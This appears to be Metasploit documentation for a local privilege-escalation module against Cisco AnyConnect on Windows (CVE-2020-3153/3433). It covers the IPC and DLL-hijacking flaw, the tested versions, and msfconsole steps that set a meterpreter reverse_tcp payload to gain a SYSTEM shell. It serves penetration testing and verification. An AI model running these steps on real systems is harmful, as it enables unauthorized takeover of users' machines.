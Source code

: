 ## Vulnerable Application

The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.8.02042 is vulnerable to path traversal and allows local attackers
to create/overwrite files in arbitrary locations with system level privileges.

The installer component of Cisco AnyConnect Secure Mobility Client for Windows
prior to 4.9.00086 is vulnerable to a DLL hijacking and allows local attackers
to execute code on the affected machine with with system level privileges.

Both attacks consist in sending a specially crafted IPC request to the TCP
port 62522 on the loopback device, which is exposed by the Cisco AnyConnect
Secure Mobility Agent service. This service will then launch the vulnerable
installer component (`vpndownloader`), which copies itself to an arbitrary
location (CVE-2020-3153) or with a supplied DLL (CVE-2020-3433) before being
executed with system privileges. Since `vpndownloader` is also vulnerable to DLL
hijacking, a specially crafted DLL (`dbghelp.dll`) is created at the same
location `vpndownloader` will be copied to get code execution with system
privileges.

The CVE-2020-3153 exploit has been successfully tested against Cisco AnyConnect
Secure Mobility Client versions 4.5.04029, 4.5.05030 and 4.7.04056 on Windows 10
version 1909 (x64) and Windows 7 SP1 (x86); the CVE-2020-3434 exploit has been
successfully tested against Cisco AnyConnect Secure Mobility Client versions
4.5.02036, 4.6.03049, 4.7.04056, 4.8.01090 and 4.8.03052 on Windows 10 version
1909 (x64) and 4.7.4056 on Windows 7 SP1 (x64).

AnyConnect Secure Mobility Client is not publicly available and only customers
with active contracts can download it. For this reason, download links have not
been provided.

## Install the Application

  1. Unzip the AnyConnect package
  2. Open the extracted folder
  3. Run `Setup.exe`
  4. Select `Core & VPN` only (no need to install the full package)
  5. Click `Install Selected`
  6. Confirm you want to install this specific version of Anyconnect (click `OK`)
  7. Accept the EULA (click `Accept`)
  8. `Installation complete` (click `OK`)... enjoy

  Or just run the `anyconnect-win-x.y.zzzzz-core-vpn-predeploy-k9.msi` installer and
  follow the installation steps with the default options.

## Verification Steps

  1. Start msfconsole
  2. Get a session with non-administrative privileges
  3. Do: ```use exploit/windows/local/anyconnect_lpe```
  4. Do: ```set SESSION <SESSION>```
  5. Do: ```set payload windows/meterpreter/reverse_tcp```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```set LPORT <LPORT>```
  8. Do: ```check```
  9. Do: ```run```
  10. You should get a new session as the SYSTEM user
